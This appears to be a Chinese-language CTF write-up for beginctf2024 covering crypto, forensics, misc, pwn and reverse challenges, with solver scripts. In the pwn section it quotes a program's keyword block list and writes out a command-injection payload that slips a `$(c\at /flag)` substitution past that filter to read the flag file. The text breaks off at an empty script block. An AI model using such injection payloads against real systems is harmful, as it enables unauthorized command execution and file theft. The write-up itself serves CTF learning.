


## crypto

### fake_n

##### 题目
```python
from Crypto.Util.number import *
from secret import flag

def fakeN_list():
    puzzle_list = []

    for i in range(15):
        r = getPrime(32)
        puzzle_list.append(r)

    p = getPrime(32)
    q = getPrime(32)
    com = p*q

    puzzle_list.append(com)

    return puzzle_list

def encrypt(m,e,fake_n_list):

    fake_n = 1
    for i in range(len(fake_n_list)):
        fake_n *= fake_n_list[i]

    really_n = 1
    for i in range(len(fake_n_list)-1):
        really_n *= fake_n_list[i]

    c = pow(m,e,really_n)

    print("c =",c)
    print("fake_n =",fake_n)

if __name__ == '__main__':
    m = bytes_to_long(flag)
    e = 65537
    fake_n_list = fakeN_list()
    encrypt(m,e,fake_n_list)

'''
c = 6451324417011540096371899193595274967584961629958072589442231753539333785715373417620914700292158431998640787575661170945478654203892533418902
fake_n = 178981104694777551556050210788105224912858808489844293395656882292972328450647023459180992923023126555636398409062602947287270007964052060975137318172446309766581
'''
```

##### 解题过程


分析题目，可知，fake_n是17个32位的质数的积

真实的n是其中15个质数

分解fake_n，得到17个数 [2215221821, 2290486867, 2333428577, 2361589081, 2446301969, 2507934301, 2590663067, 3107210929, 3278987191, 3389689241, 3417707929, 3429664037, 3716624207, 3859354699, 3965529989, 4098704749, 4267348123]

使用itertools的combinations组合，取15个为一组为n，解密

###### exp

```python
import gmpy2,libnum
from itertools import combinations

nn = [2215221821, 2290486867, 2333428577, 2361589081, 2446301969, 2507934301, 2590663067, 3107210929, 3278987191, 3389689241, 3417707929, 3429664037, 3716624207, 3859354699, 3965529989, 4098704749, 4267348123]
e = 65537
c = 6451324417011540096371899193595274967584961629958072589442231753539333785715373417620914700292158431998640787575661170945478654203892533418902

# 生成所有可能的组合
all_combinations = []
for r in range(1, len(nn) + 1):
    all_combinations.extend(combinations(nn, r))

for combination in all_combinations:
    ni = list(combination)[:-2]
    n = 1
    phi = 1
    for i in ni:
        n*=i
        phi*=(i-1)
    d = gmpy2.invert(e,phi)
    m = pow(c,d,n)
    m_s = libnum.n2s(int(m))
    if "begin{" in  str(m_s):
        print(m_s)
        exit()
```


## Forensics

### 逆向工程(reverse)入门指南


##### 解题过程
题目是一个pdf，是逆向工程(reverse)入门指南

浏览器打开，ctrl+a 选中一段透明字符，ctrl+c复制，粘贴，获得flag


---
指南很好，看了会儿。看完拿flag，到平台看，已经有二三十个队伍提交了flag😭


### beginner_Forensics!!!!

对于取证初学者来说,他们或许会遇到一些混淆的代码.而你需要学会如何去解决他们?请发挥你的想法,拿到隐藏于其的秘密! 🦇

##### 解题过程

题目文本形式打开
发现字符串“::BatchEncryption Build 201610 By gwsbhqt@163.com”
搜索，发现强国杯2022的一个题目，
根据writeup，知道这是加密方式为batchencryption的bat脚本，
使用脚本解密
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import os
import sys
envars = dict()

def readVarvalue(data):
    length = len(data)
    source = str(data, encoding="utf-8")
    buffer = source[1:length - 1]
    buffer = buffer.split(":~")
    
    varname = buffer[0]
    if not varname in envars:
        envars[varname] = os.getenv(varname)
    
    entity = envars[varname]
    if not entity:  # None value
        return source
    
    length = len(buffer)
    if length > 1:
        length = len(entity)
        buffer = buffer[1].split(",")
        start = int(buffer[0])
        ended = int(buffer[1])
        if start < 0:
            start, ended = length + start, ended
        source = entity[start: start + ended]
    return source


def batchReader(data, index, length):
    buffer = bytes(); source = str()
    
    flag = False; start = 0; ended = 0
    while(True):
        if data[index] in [0xFF, 0xFE]: index += 1; continue
        if data[index] == 0x0D and data[index + 1] == 0x0A: index += 2; break
        if data[index] == 0x25: # 判断变量符号, 获取符号名
            if not flag:
                flag = True
                start = index
            else:
                flag = False
                ended = index + 1
                buffer = data[start:ended]
                source += readVarvalue(buffer)
            index += 1
        else:
            if not flag: # 保存其他字符串
                try:
                    buffer = data[index:index + 1]
                    source += str(buffer, encoding="utf-8")
                    index += 1
                except Exception as err:
                    ansiByte = bytes(); ansiLen = index
                    while (str(buffer).find("x") >= 0):
                        ansiByte += buffer; ansiLen += 1
                        buffer = data[ansiLen:ansiLen + 1]
                    source += ansiByte.decode("ansi", "ignore")
                    index = ansiLen
            else: # 保存变量内的名称
                if (start + 1 == index) and ((data[index] >= 0x30 and data[index] <= 0x39) or data[index] == 0x2A):
                    flag = False
                    ended = index
                    buffer = data[start: ended + 1]
                    source += str(buffer, encoding="utf-8")
                index += 1
        if index >= length: break
    print(source)
    bufs = source.split('&@') # 解析加密变量
    for var in bufs:
        if var[0:4] == 'set ':
            var = var[4:]
            b = var.find('=')
            envars[var[0:b]] = var[b+1:].replace('^^^', '^')
    source += '\r\n'
    return {"index": index, "source": source}


def batchDecryp(data):
    result = dict(); source = str()

    index = 0; length = len(data)
    while (index < length):
        result = batchReader(data, index, length)
        index = result.get("index")
        source = result.get("source")
    return source


if __name__ == '__main__':
    # if len(sys.argv) < 2:
    #     print("[x] Script parameter length error!")
    #     print("[!] Usage: python dencrypt.py encrypt.bat")
    #     exit(0)
    file = open('forensics.bat', "rb")
    data = file.read(); file.close()
    batchDecryp(data)
    exit(0)
```
运行得到bat脚本
```bat
@echo on&@endlocal&@cls
@echo off
echo catf1y:your flag is already deleted by me.
set find_me_pls = b@TcH_O8FU$c@T1on_15_e@SY_70_SO1vE
echo crazyman:no no no no no no !!!!! i need flag.
echo Attention:can you help crazyman to find the flag?
echo Attention:Submit the info you are looking for on begin{*}
```

flag:  `begin{b@TcH_O8FU$c@T1on_15_e@SY_70_SO1vE}`

---
参考[https://www.cnblogs.com/sakura--tears/p/17148303.html#B%40tCh](https://www.cnblogs.com/sakura--tears/p/17148303.html#B%40tCh)
如果没有“::BatchEncryption Build 201610 By gwsbhqt@163.com”
我都不知道从何下手，😭


## misc

### 你知道中国文化嘛1.0

中国文化博大精深，

##### 解题过程

打开附件，
得到一堆字符，是base编码

```
4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLNYUYWLRJRMXCTC3OFGFS4KMLBYUYW7RJRM7CTC2OFGFW4KMLFYUYWPRJRMHCTCZOFGFR4KMLNYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFX4KMLDYUYWLRJRNXCTCZ6FGFT4KMLJYUYW7RJRMXCTC26FGFV4KMLFYUYWHRJRMPCTCZ6FGFU4KMLNYUYWLRJRMXCTC3OFGFS4KMLBYUYW7RJRM7CTC2OFGFW4KMLFYUYWPRJRMHCTCZOFGFR4KMLNYUYWPRJRNHCTC26FGFS4KMLDYUYW7RJRMXCTCY6FGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLNYUYWLRJRMHCTC2OFGFT4KMLJYUYW3RJRMXCTC3OFGFT4KMLFYUYWLRJRNPCTCZ6FGFU4KMLNYUYWLRJRNXCTCZOFGFS4KMLPYUYWPRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRNXCTCZOFGFW4KMLHYUYWLRJRMXCTC26FGFT4KMLJYUYW3RJRMXCTC3OFGFS4KMLFYUYW7RJRM7CTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC3OFGFS4KMLFYUYW3RJRMXCTCYOFGFX4KMLHYUYWTRJRNXCTCZOFGFT4KMLBYUYWLRJRMPCTC3OFGFT4KMLJYUYWXRJRMXCTCYOFGFV4KMLFYUYWXRJRNHCTCZ6FGFU4KMLNYUYWLRJRNPCTC26FGF$4KMLJYUYWPRJRM7CTC2OFGFV4KMLFYUYW7RJRMPCTCZOFGFW4KMLHYUYWPRJRNHCTC36FGFS4KMLLYUYWXRJRMXCTCY6FGFR4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLLYUYWLRJRN7CTCY6FGFS4KMLNYUYWPRJRM7CTC2OFGFX4KMLFYUYWXRJRNPCTCZOFGFR4KMLDYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYW7RJRMXCTCY6FGFQ4KMLFYUYW3RJRMPCTCZ6FGFU4KMLLYUYWLRJRM7CTCZ6FGFS4KMLPYUYWXRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFX4KMLDYUYWLRJRNXCTCZ6FGFT4KMLJYUYW7RJRMXCTC26FGFV4KMLFYUYWHRJRMPCTCZ6FGFU4KMLLYUYWLRJRMXCTCZOFGFS4KMLDYUYWTRJRM7CTC26FGFQ4KMLFYUYW3RJRMHCTCZOFGFS4KMLBYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYWXRJRMXCTCYOFGFV4KMLFYUYWXRJRNHCTCZ6FGFU4KMLNYUYWLRJRNPCTC26FGFS4KMLJYUYWPRJRM7CTC26FGFQ4KMLFYUYWDRJRN&CTCZOFGFV4KMLFYUYWPRJRNHCTC36FGFS4KMLFYUYWTRJRMXCTC3OFGFR4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLPYUYWLRJRMPCTCYOFGFS4KMLNYUYWHRJRM7CTC2OFGFV4KMLFYUYWPRJRM7CTCZOFGFX4KMLLYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYWXRJRMXCTC26FGFX4KMLFYUYWHRJRNHCTCZ6FGFU4KMLLYUYWLRJRN&CTC2OFGFS4KMLPYUYWLRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRN7CTCZOFGFR4KMLBYUYWLRJRNXCTCY6FGFT4KMLJYUYWXRJRMXCTCZ6FGFT4KMLFYUYW7RJRNPCTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYWXRJRMXCTCYOFGFV4KMLFYUYWXRJRNHCTCZ6FGFU4KMLNYUYWLRJRNPCTC26FGFS4KMLJYUYWPRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLNYUYWLRJRNXCTCZ6FGFS4KMLFYUYWXRJRM7CTC2OFGFW4KMLFYUYW3RJRMXCTCZOFGFX4KMLHYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYWXRJRMXCTC36FGFR4KMLFYUYW3RJRM7CTCZ6FGFU4KMLPYUYWLRJRNPCTC26FGFS4KMLDYUYWHRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWXRJRMHCTCZOFGFQ4KMLPYUYWLRJRNPCTCZOFGFT4KMLJYUYW7RJRMXCTCZOFGFU4KMLFYUYW3RJRMPCTCZ6FGFU4KMLNYUYWLRJRMXCTC3OFGFS4KMLBYUYW7RJRM7CTC2OFGFW4KMLFYUYWPRJRMHCTCZOFGFR4KMLNYUYWPRJRNPCTCYOFGFS4KMLLYUYW7RJRMXCTCZ6FGFS4KMLHYUYWTRJRNHCTCZOFGFX4KMLPYUYWLRJRNHCTCY6FGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRNXCTCZOFGFS4KMLNYUYWLRJRMHCTC36FGFT4KMLJYUYW3RJRMXCTCZ6FGFQ4KMLFYUYWHRJRNXCTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLPYUYWHRJRMXCTC3OFGFT4KMLHYUYWTRJRN7CTCZOFGFV4KMLLYUYWLRJRMPCTCY6FGFT4KMLJYUYWXRJRMXCTCYOFGFV4KMLFYUYWXRJRNHCTCZ6FGFU4KMLNYUYWLRJRNPCTC26FGFS4KMLJYUYWPRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLNYUYWLRJRMXCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFU4KMLFYUYW7RJRMHCTCZOFGFT4KMLFYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLLYUYWDRJRMXCTCYOFGFX4KMLFYUYWXRJRMXCTCZ6FGFU4KMLPYUYWLRJRMXCTC2OFGFS4KMLNYUYWHRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLNYUYWLRJRNXCTCZ6FGFS4KMLFYUYWXRJRM7CTC2OFGFW4KMLFYUYW3RJRMXCTCZOFGFX4KMLHYUYWPRJRNHCTC26FGFS4KMLDYUYW7RJRMXCTCY6FGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLNYUYWLRJRMHCTC2OFGFT4KMLJYUYW3RJRMXCTC3OFGFT4KMLFYUYWLRJRNPCTCZ6FGFU4KMLNYUYWLRJRNXCTCZOFGFS4KMLPYUYWPRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNXCTCZOFGFS4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYWTRJRMXCTC36FGFQ4KMLFYUYWPRJRMXCTCZ6FGFU4KMLNYUYWLRJRNXCTCZ6FGFS4KMLFYUYWXRJRM7CTC2OFGFW4KMLFYUYW3RJRMXCTCZOFGFX4KMLHYUYWPRJRNHCTC26FGFS4KMLDYUYW7RJRMXCTCY6FGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLNYUYWLRJRMHCTC2OFGFT4KMLJYUYWXRJRMXCTC36FGFR4KMLFYUYW3RJRM7CTCZ6FGFU4KMLPYUYWLRJRNPCTC26FGFS4KMLDYUYWHRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNXCTCZOFGFW4KMLBYUYWLRJRMXCTCY6FGFT4KMLJYUYWTRJRMXCTC36FGFQ4KMLFYUYW7RJRM7CTCZ6FGFU4KMLLYUYWLRJRMXCTCZOFGFS4KMLDYUYWTRJRM7CTC26FGFQ4KMLFYUYW3RJRMHCTCZOFGFS4KMLBYUYWPRJRNHCTC3OFGFS4KMLNYUYWPRJRMXCTCZOFGFV4KMLHYUYWTRJRNXCTCZOFGFW4KMLFYUYWLRJRN7CTCZ6FGFT4KMLJYUYW3RJRMXCTCZOFGFW4KMLFYUYWDRJRN7CTCZ6FGFU4KMLNYUYWLRJRM7CTCYOFGFS4KMLDYUYW3RJRM7CTC26FGFQ4KMLFYUYWXRJRN7CTCZOFGFT4KMLFYUYWPRJRNHCTC2OFGFS4KMLPYUYW7RJRMXCTC2OFGFR4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLLYUYWLRJRMXCTCZOFGFS4KMLDYUYWTRJRM7CTC26FGFQ4KMLFYUYW3RJRMHCTCZOFGFS4KMLBYUYWPRJRNHCTC3OFGFS4KMLNYUYWDRJRMXCTCZOFGFR4KMLHYUYWTRJRNHCTCZOFGFX4KMLBYUYWLRJRN7CTCZ6FGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFX4KMLFYUYWHRJRMHCTCZOFGFW4KMLDYUYWPRJRNHCTC26FGFS4KMLHYUYWPRJRMXCTC36FGFV4KMLHYUYWTRJRNXCTCZOFGFS4KMLNYUYWLRJRMHCTC36FGFT4KMLJYUYW3RJRMXCTCZ6FGFQ4KMLFYUYWHRJRNXCTCZ6FGFV4KMLBYUYWLRJRNPCTC36FGFS4KMLHYUYWLRJRM7CTC2OFGFU4KMLFYUYW7RJRN7CTCZOFGFU4KMLDYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFW4KMLFYUYW3RJRMHCTCZOFGFS4KMLDYUYWPRJRNHCTC2OFGFS4KMLPYUYWDRJRMXCTC36FGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLNYUYWLRJRMXCTC3OFGFS4KMLBYUYW7RJRM7CTC2OFGFW4KMLFYUYWPRJRMHCTCZOFGFR4KMLNYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYWXRJRMXCTCY6FGFX4KMLFYUYWHRJRM7CTCZ6FGFU4KMLLYUYWLRJRMXCTC3OFGFS4KMLBYUYWTRJRM7CTC2OFGFX4KMLFYUYWHRJRMHCTCZOFGFW4KMLDYUYWPRJRNHCTC26FGFS4KMLHYUYWPRJRMXCTC36FGFV4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC@OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLPYUYWLRJRMPCTCYOFGFS4KMLNYUYWHRJRM7CTC2OFGFV4KMLFYUYWPRJRM7CTCZOFGFX4KMLLYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYW3RJRMXCTC3OFGFQ4KMLFYUYWLRJRMPCTCZ6FGFU4KMLJYUYWLRJRN7CTCYOFGFS4KMLPYUYWPRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC@OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLPYUYWHRJRMXCTC3OFGFT4KMLHYUYWTRJRN7CTCZOFGFV4KMLLYUYWLRJRMPCTCYQ====
```

不是常见的base64，是base32
解码base32出错，有字符被替换为特殊字符@$&

复制前面的字符进行base32解码，是八卦字符加密

💡编写python将特殊字符替换一下，解码base32，并解密八卦字符

###### 解题脚本
```python
import subprocess
#####八卦字符解密函数-开始####
def bArrToStr(bArr):
    nByte = b''
    for b in bArr:
        nByte += chr(int(b,base=8)).encode('raw_unicode_escape')
    return bytes.decode(nByte)
def to8bArr(baguaStr):
    code = {'☰':'0',  # 乾
            '☱':'1',  # 兑
            '☲':'2',  # 离
            '☳':'3',  # 震
            '☴':'4',  # 巽
            '☵':'5',  # 坎
            '☶':'6',  # 艮
            '☷':'7',  # 坤
            }
    bArr = []
    temp = []
    # 把八卦符转为8进制数字
    for s in baguaStr:
        temp.append(code[s])
    tempStr = ''
    # 数字3个一组 组合回八进制
    for i in range(len(temp)):
 
        tempStr += temp[i]
 
        if i % 3 == 2:
            bArr.append('0o'+tempStr)
            tempStr = ''
    return bArr
def base8bagua(m):
    arr = to8bArr(m)
    return  bArrToStr(arr)
#####八卦字符解密函数-结束####

# 所有出现的能识别的字符
zimu = "FYRCMLTUJWK4GOXNHZP62S73VDBQ"
# 依次替换@$&为可能出现的字符
with open("a.txt") as f:
    txt = f.read()[:-1]
    for i in zimu:
        itxt = txt.replace('@',i)
        for j in zimu:
            jtxt = itxt.replace("&",j)
            for k in zimu:
                ktxt = jtxt.replace('$',k)
                # 出错就下一个
                try:
                    # 我写到base32 一直有问题，就直接调用shell了
                    result = subprocess.run(f"echo '{ktxt}' | base32 -d", shell=True, capture_output=True, text=True)
                    # 输出结果
                    osres = result.stdout
                    print(base8bagua(osres))
                except:
                    continue
```

脚本跑了好几分钟，应该还能优化，但是题解出来了，就不管了😄

运行结果有4个，一眼看出是核心价值观编码，一个一个解密（就不写脚本核心价值观解密脚本了🐶）

公正文明公正和谐公正平等文明友善法治和谐法治公正文明公正平等公正平等和谐爱国公正平等和谐和谐公正自由和谐爱国和谐富强和谐爱国公正公正公正和谐公正法治公正平等公正自由文明诚信和谐和谐文明公正平等公正公正和谐敬业和谐自由公正公正法治友善法治公正敬业法治友善平等公正民主和谐法治文明诚信和谐和谐民主和谐爱国文明诚信和谐和谐民主和谐文明公正友善爱国和谐爱国和谐民主公正和谐公正平等

解出: bce-7bee8e3d808fcged-2ef94f}i{a7-18-12n81ce

移位一下

begin{eec8da87-ee32-11ed-8f8c-907841e2ffbc}

---

脚本写了一两个小时😭


### real check in

为了选手有更好的游玩体验请及时加入beginctf2024官方群,群号:612995005

从catf1y的笔记本中发现了这个神秘的代码MJSWO2LOPNLUKTCDJ5GWKX3UN5PUEM2HNFXEGVCGL4ZDAMRUL5EDAUDFL5MU6VK7O5UUYMK7GEYWWZK7NE3X2===

你能帮助我找到最后的flag吗?


##### 解题过程
签到题，cyber魔术棒一键解出   base32解码



### Tupper
年轻人们第一道misc签到题

前一天没有任何思路，直到看到做出的人越来越多，应该是简单的题目，也没有看到啥提示，直到我搜索题目名，发现题目名就是提示😢


##### 解题过程

解压附件，获得很多txt，文件名为 数字.txt
打开一个txt。应该是是base，

按文件名排序打开所有文件

```
cat $(ls -v *.txt) 

MTQyNzgxOTM0MzI3MjgwMjYwNDkyOTg1NzQ1NzU1NTc1MzQzMjEwNjIzNDkzNTI1NDM1NjI2NTY3NjY0Njk3MDQwOTI4NzQ2ODgzNTQ2NzkzNzEyMTI0NDQzODIyOTg4MjEzNDIwOTM0NTAzOTg5MDcwOTY5NzYwMDI0NTg4MDc1OTg1MzU3MzUxNzIxMjY2NTc1MDQxMzExNzE2ODQ5MDcxNzMwODY2NTk1MDUxNDM5MjAzMDAwODU4MDg4MDk2NDcyNTY3OTAzODQzNzg1NTM3ODAyODI4OTQyMzk3NTE4OTg2MjAwNDExNDMzODMzMTcwNjQ3MjcxMzY5MDM2MzQ3NzA5MzYzOTg1MTg1NDc5MDA1MTI1NDg0MTk0ODYzNjQ5MTUzOTkyNTM5NDEyNDU5MTEyMDUyNjI0OTM1OTExNTg0OTc3MDgyMTkxMjY0NTM1ODc0NTY2MzczMDI4ODg3MDEzMDMzODIyMTA3NDg2Mjk4MDAwODE4MjE2ODQyODMxODczNjg1NDM2MDE1NTk3Nzg0MzE3MzUwMDY3OTQ3NjE1NDI0MTMwMDY2MjEyMTkyMDczMjI4MDg0NDkyMzIwNTA1Nzg4NTI0MzEzNjE2Nzg3NDUzNTU3NzY5MjExMzIzNTI0MTk5MzE5MDc4MzgyMDUwMDExODQ=
```

解码base64，获得一串数字

```
cat $(ls -v *.txt) | base64 -d

14278193432728026049298574575557534321062349352543562656766469704092874688354679371212444382298821342093450398907096976002458807598535735172126657504131171684907173086659505143920300085808809647256790384378553780282894239751898620041143383317064727136903634770936398518547900512548419486364915399253941245911205262493591158497708219126453587456637302888701303382210748629800081821684283187368543601559778431735006794761542413006621219207322808449232050578852431361678745355776921132352419931907838205001184
```

起初以为是转字符串，转好久，失败。

按提示搜索tupper

使用 [在线解密网站https://tuppers-formula.ovh/](https://tuppers-formula.ovh/)

获得flag




### where is crazyman v1.0

你能找到空白在哪里吗? 只需要提供地段名称即可.
可接受的格式有两种begin{{三位简体中文}}或者begin{{9位英文字母第一个需要大写}}
例如:begin{二七广场} 或者 begin{Erqisquare}


##### 题目附件


##### 解题过程
google搜图
 获得地名  秋叶原

flag为：
 begin{秋叶原}

## PWN

### ezpwn

##### 题目 
[题目下载](static/ezpwn)

##### 解题过程
checksec看了一下，看不懂，(大佬们做pwn都是看的✅)
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
直接ida64打开

大概逻辑是有个菜单
4个选项
```c
  puts("1.Test your data");
  puts("2.Test your command");
  puts("3.Test your file");
  puts("4.Exit.");
```

选择后的逻辑为
```c
      switch ( v3 )
      {
        case 3:
          filemanage();
          break;
        case 1:
          puts("Please input index.");
          __isoc99_scanf("%d", &v2);
          puts("please input value");
          v1 = getchar();
          getchar();
          s[v2] = v1;
          break;
        case 2:
          memset(buf, 0, sizeof(buf));
          memset(command, 0, 0x100uLL);
          puts("Please input your echo command");
          read(0, buf, 0xE0uLL);
          if ( strchr(buf, ';')
            || strchr(buf, '`')
            || strchr(buf, '|')
            || strchr(buf, '/')
            || strchr(buf, '&')
            || strstr(buf, "cat")
            || strstr(buf, "sh") )
          {
            perror("Forbidden.");
            _exit(-1);
          }
          snprintf(command, 0x100uLL, "%s %s %s", "echo '", buf, "' string");
          system(command);
          break;
      }
```
```
看到选项2有一个system，拼接输入的字符串buf，但是buf禁用了';','`','|','/','&',"cat","sh"
有单引号，不能使用“|”和“&” ,不能使用管道的方式.
没有禁用$()，
可以利用$()进行getshell
```
```shell
' "$(c\at /flag)" '
# 第一个单引号闭合前面的单引号
# \a 转义绕过cat
```

nc连接以后，输入2，输入`' "$(c\at /flag)" '` 获得flag

## reverse

### real checkin xor

##### 解题过程
###### 题目脚本

```python
def verify_func(ciper,key):
    encrypted = []
    for i in range(len(ciper)):
        encrypted.append(ord(ciper[i])^ord(key[i%len(key)]))
    return encrypted

secret = [7, 31, 56, 25, 23, 15, 91, 21, 49, 15, 33, 88, 26, 48, 60, 58, 4, 86, 36, 64, 23, 54, 63, 0, 54, 22, 6, 55, 59, 38, 108, 39, 45, 23, 102, 27, 11, 56, 32, 0, 82, 24]
print("这是一个保险箱,你能输入相关的key来进行解密吗?")
input_line = input("请输入key > ")
if verify_func(input_line,"ez_python_xor_reverse") == secret:
    print("密码正确")
else:
    print("密码错误")
```
题目分析：

secret为正确加密后的密码
输入key，ord后与`ez_python_xor_reverse`异或
异或是可逆的，secret与`ez_python_xor_reverse`异或就能得到原文


###### 解题脚本
```python
